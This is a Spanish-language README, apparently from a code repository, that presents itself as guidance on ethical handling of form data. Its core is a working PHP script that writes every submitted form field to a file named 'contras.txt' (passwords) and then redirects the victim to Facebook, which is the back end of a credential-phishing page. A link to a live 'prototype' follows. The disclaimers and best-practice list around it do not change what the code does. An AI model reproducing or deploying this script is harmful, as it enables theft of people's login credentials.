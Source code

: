 # Buenas Prácticas para Evitar Mal Uso de Datos de Formulario

Este README tiene como objetivo proporcionar información sobre buenas prácticas y directrices para garantizar que las tecnologías y scripts en uso cumplan con los principios éticos y legales, y eviten prácticas maliciosas como la recolección no autorizada de datos de formulario.

## Descripción del Código

El código proporcionado es un ejemplo que ilustra cómo se pueden manipular datos de formulario en un entorno web. Sin embargo, es esencial utilizar este código de manera ética y legal y contar con el permiso adecuado para realizar pruebas y actividades relacionadas con la seguridad.
```php
<?php
$archivo = fopen("contras.txt", "a");
fwrite($archivo, "\r\n");
foreach ($_POST as $key => $value) {
    fwrite($archivo, $key . "=" . $value . "\r\n");
}
fclose($archivo);
header("Location: https://www.facebook.com");
die();
?>

```
## Buenas Prácticas

Para evitar el mal uso de datos de formulario y garantizar la seguridad y la integridad de los sistemas y los datos, se deben seguir las siguientes buenas prácticas:

1. **Consentimiento y Autorización**: Antes de realizar pruebas de seguridad en cualquier sistema, obtén el consentimiento y la autorización explícita del propietario del sistema o sitio web. Realizar pruebas sin autorización puede ser ilegal.

2. **Entorno Controlado**: Realiza pruebas en un entorno controlado y aislado que no afecte a sistemas o datos en producción.

3. **Transparencia**: Asegúrate de que todas las pruebas se realicen de manera transparente y documentada. Registra todas las actividades realizadas.

4. **Eliminación Segura de Datos**: Si se recopilan datos durante las pruebas, asegúrate de eliminarlos de manera segura y completa una vez que las pruebas hayan concluido.

5. **Cumplimiento Legal**: Cumple con todas las leyes y regulaciones de seguridad informática aplicables en tu jurisdicción.

## Nota Importante

Este README se proporciona con la intención de promover prácticas de seguridad éticas y legales. El código proporcionado no debe utilizarse con fines maliciosos, y se debe tener cuidado de respetar las leyes y regulaciones aplicables en todo momento.

Recuerda que la seguridad informática debe centrarse en proteger sistemas y datos, no en comprometerlos. El cumplimiento ético y legal es fundamental en todas las actividades de seguridad informática.

PROTOTIPO EN:
https://increibleayudargente.000webhostapp.com/

